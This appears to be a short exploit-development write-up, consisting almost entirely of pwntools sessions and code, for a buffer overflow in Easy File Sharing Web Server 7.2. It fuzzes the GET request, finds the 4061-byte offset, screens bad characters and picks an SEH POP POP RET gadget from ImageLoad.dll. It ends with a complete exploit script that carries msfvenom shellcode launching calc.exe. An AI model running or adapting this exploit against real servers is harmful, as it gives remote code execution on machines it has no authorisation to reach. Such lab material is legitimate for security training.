








# Easy File Sharing Web Server 7.2

```py
In [11]: r = remote('192.168.122.186', 80)
    ...: r.write('GET ' + 'A'*4500 + ' HTTP/1.0\r\n\r\n')
    ...: 
[x] Opening connection to 192.168.122.186 on port 80
[x] Opening connection to 192.168.122.186 on port 80: Trying 192.168.122.186
[+] Opening connection to 192.168.122.186 on port 80: Done
```



```py
In [13]: r = remote('192.168.122.186', 80)
    ...: r.write(b'GET ' + cyclic(4500) + b' HTTP/1.0\r\n\r\n')
    ...: 
[x] Opening connection to 192.168.122.186 on port 80
[x] Opening connection to 192.168.122.186 on port 80: Trying 192.168.122.186
[+] Opening connection to 192.168.122.186 on port 80: Done
```







```py
In [14]: cyclic_find(0x6261726f)
Out[14]: 4065
```

```py
In [15]: r = remote('192.168.122.186', 80)
    ...: 
    ...: payload = b'A'*4061 + b'BBBB' + b'CCCC' + bytes(range(1, 256)) + b'A'*(4500-4-4-255)
    ...: r.write(b'GET ' + payload + b' HTTP/1.0\r\n\r\n')
    ...: 
[x] Opening connection to 192.168.122.186 on port 80
[x] Opening connection to 192.168.122.186 on port 80: Trying 192.168.122.186
[+] Opening connection to 192.168.122.186 on port 80: Done
```



```py
In [17]: r = remote('192.168.122.186', 80)
    ...: 
    ...: chars = bytes([i for i in range(1, 256) if i not in [0x00, 0x20, 0x2f, 0x5c]])
    ...: payload = b'A'*4061 + b'BBBB' + b'CCCC' + chars + b'A'*(4500-4-4-len(chars))
    ...: 
    ...: r.write(b'GET ' + payload + b' HTTP/1.0\r\n\r\n')
    ...: 
[x] Opening connection to 192.168.122.186 on port 80
[x] Opening connection to 192.168.122.186 on port 80: Trying 192.168.122.186
[+] Opening connection to 192.168.122.186 on port 80: Done
```





```py
$ ropper -f ./ImageLoad.dll -p


POP;POP;RET Instructions
========================


0x1000108b: pop ebp; pop ebx; ret; 
0x10001274: pop ebp; pop ebx; ret; 
0x10001877: pop esi; pop ebx; ret; 
0x100018e0: pop esi; pop ebx; ret; 
0x10001d9f: pop ebp; pop ebx; ret; 
0x100026e1: pop edi; pop ebx; ret;

...

0x10023103: pop ebx; pop ecx; ret;

...
```

```py
#!/usr/bin/env python3

from pwn import *


lpad = b'A'*4061

jmp = asm('jmp short $+8') + b'\x90\x90' # eb 06 90 90

# 0x10023103: pop ebx; pop ecx; ret;
ppr = p32(0x10023103)

nop = b'\x90'*16

# msfvenom -p windows/exec -b '\x00\x20\x2f\x5c' -f py CMD=calc.exe EXITFUNC=seh 
buf =  b"\xdb\xc6\xd9\x74\x24\xf4\x5d\xb8\x4d\x86\x7e\xc4\x31"
buf += b"\xc9\xb1\x31\x83\xed\xfc\x31\x45\x14\x03\x45\x59\x64"
buf += b"\x8b\x38\x89\xea\x74\xc1\x49\x8b\xfd\x24\x78\x8b\x9a"
buf += b"\x2d\x2a\x3b\xe8\x60\xc6\xb0\xbc\x90\x5d\xb4\x68\x96"
buf += b"\xd6\x73\x4f\x99\xe7\x28\xb3\xb8\x6b\x33\xe0\x1a\x52"
buf += b"\xfc\xf5\x5b\x93\xe1\xf4\x0e\x4c\x6d\xaa\xbe\xf9\x3b"
buf += b"\x77\x34\xb1\xaa\xff\xa9\x01\xcc\x2e\x7c\x1a\x97\xf0"
buf += b"\x7e\xcf\xa3\xb8\x98\x0c\x89\x73\x12\xe6\x65\x82\xf2"
buf += b"\x37\x85\x29\x3b\xf8\x74\x33\x7b\x3e\x67\x46\x75\x3d"
buf += b"\x1a\x51\x42\x3c\xc0\xd4\x51\xe6\x83\x4f\xbe\x17\x47"
buf += b"\x09\x35\x1b\x2c\x5d\x11\x3f\xb3\xb2\x29\x3b\x38\x35"
buf += b"\xfe\xca\x7a\x12\xda\x97\xd9\x3b\x7b\x7d\x8f\x44\x9b"
buf += b"\xde\x70\xe1\xd7\xf2\x65\x98\xb5\x98\x78\x2e\xc0\xee"
buf += b"\x7b\x30\xcb\x5e\x14\x01\x40\x31\x63\x9e\x83\x76\x95"
buf += b"\x6f\x1e\x62\x02\xd6\xcb\xcf\x4e\xe9\x21\x13\x77\x6a"
buf += b"\xc0\xeb\x8c\x72\xa1\xee\xc9\x34\x59\x82\x42\xd1\x5d"
buf += b"\x31\x62\xf0\x3d\xd4\xf0\x98\xef\x73\x71\x3a\xf0"

rpad = b'A'*(4500 - 4061 - 4 - 4 - 16 - len(buf))

payload = lpad + jmp + ppr + nop + buf + rpad

r = remote('192.168.122.186', 80)

r.write(b'GET ' + payload + b' HTTP/1.0\r\n\r\n')
r.close()
```

```
$ ./exploit.py 
[+] Opening connection to 192.168.122.186 on port 80: Done
[*] Closed connection to 192.168.122.186 port 80
```



